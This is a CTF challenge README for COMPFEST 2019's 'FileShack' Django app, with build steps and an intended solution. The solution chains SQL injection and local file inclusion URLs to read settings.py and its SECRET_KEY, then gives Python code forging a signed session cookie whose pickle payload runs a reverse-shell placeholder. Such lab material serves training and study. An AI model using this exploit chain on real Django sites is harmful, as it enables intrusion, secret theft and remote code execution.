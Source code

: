 # FileShack CTF Challenge (COMPFEST 2019 CTF Quals)

## Build & Run

```bash
# Build environment with flag
docker-compose build --build-arg flag=COMPFEST{flag} --build-arg flag_path=/change_this

# Run environment
docker-compose up -d

# Populate database (do it only once during first run)
docker-compose run web python manage.py migrate
docker-compose run web python manage.py populate_db
```

## Testing

http://127.0.0.1:8000

## Description

```
We build a repository for secret files with modern web framework. *URL*
```

## Intended Solution

1. SQL injection on `/file/[TOKEN]`.

```
http://127.0.0.1:8000/file/df89182c50e0a62779b3d6a741951862807a4f3a%22%20--%20asdf
```

2. Enumeration via blind SQL injection to determine `fileboard_file` table structure and web framework (there are some tables with `django` prefix).

3. Union-based SQL injection to determine the column of file name.

```
http://127.0.0.1:8000/file/df89182c50e0a62779b3d6a741951862807a4f3a%22%20union%20select%201,2,%22dummy.pdf%22%20--%20asdf
```

4. LFI without `/` in the file path.

```
http://127.0.0.1:8000/file/df89182c50e0a62779b3d6a741951862807a4f3a%22%20union%20select%201,2,concat('..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'proc',%20CHAR(47),%20'self',%20CHAR(47),%20'cwd',CHAR(47),'manage.py')%20--%20asd
```

5. Load `manage.py` with LFI via `/proc/self/cwd` to know the application directory name (`FileShack`).

```
http://127.0.0.1:8000/file/df89182c50e0a62779b3d6a741951862807a4f3a%22%20union%20select%201,2,concat('..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'proc',%20CHAR(47),%20'self',%20CHAR(47),%20'cwd',CHAR(47),'manage.py')%20--%20asd
```

6. Load `settings.py` to know `SECRET_KEY`, `SESSION_ENGINE` (`django.contrib.sessions.backends.signed_cookies`), and `SESSION_SERIALIZER` (`django.contrib.sessions.serializers.PickleSerializer`).

```
http://127.0.0.1:8000/file/df89182c50e0a62779b3d6a741951862807a4f3a%22%20union%20select%201,2,concat('..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'..',%20CHAR(47),%20'proc',%20CHAR(47),%20'self',%20CHAR(47),%20'cwd',CHAR(47),'FileShack',CHAR(47),'settings.py')%20--%20asd
```

7. Forge `sessionid` cookie with `SECRET_KEY` to trigger blind RCE through Django `PickleSerializer` insecure deserialization.

```python
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='SECRET_KEY')


class Payload(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.call, (['python', '-c', 'REVERSE_SHELL_PAYLOAD;'],))

sessionid = signing.dumps(
    obj=Payload(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)

print(sessionid)
```
